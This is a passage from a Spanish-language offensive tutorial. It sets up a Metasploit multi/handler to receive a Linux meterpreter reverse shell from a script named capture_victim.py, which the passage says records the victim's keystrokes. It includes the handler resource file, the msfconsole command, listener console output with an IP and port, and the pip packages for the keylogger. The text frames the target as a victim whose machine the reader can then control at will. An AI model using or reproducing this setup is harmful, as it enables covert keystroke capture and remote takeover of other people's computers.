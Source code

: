 Hay configuraremos el puerto que pusimos en la seccion de `REVERSE_PORT =` en el script de `capture_victim.py` y la IP a la que queremos que se nos envie la shell que sera nuestra IP del host.

> Para linux

```shell
nano handler_lin.rc

#Dentro del nano
use multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
run
```

Hay configuraremos el puerto que pusimos en la seccion de `REVERSE_PORT =` en el script de `capture_victim.py` y la IP a la que queremos que se nos envie la shell que sera nuestra IP del host.

Una vez creados estos archivos en mi caso utilizare el de `handler_lin.rc` por lo que abriremos ahora si metasploit de esta manera cargando el archivo.

```shell
msfconsole -q -r handler_lin.rc
```

Info:

```
[*] Processing handler_lin.rc for ERB directives.
resource (handler_lin.rc)> use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (handler_lin.rc)> set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (handler_lin.rc)> set LHOST 192.168.5.145
LHOST => 192.168.5.145
resource (handler_lin.rc)> set LPORT 7755
LPORT => 7755
resource (handler_lin.rc)> run
[*] Started reverse TCP handler on 192.168.5.145:7755
```

Y esto automaticamente hara que nos pongamos a la escucha.

Por lo que ya estaremos a la espera de que el usuario victima ejecute el script `capture_victim.py` lo que nos haria una visualizacion de lo que teclea a la vez de que obtendremos una shell con metasploit para poder hacer lo que queramos.

## <mark style="color:purple;">Requisitos para el script</mark>

Lo primero que tendremos que instalar en nuestra maquina host sera lo siguiente.

```shell
pip install colorama pynput keyboard
```
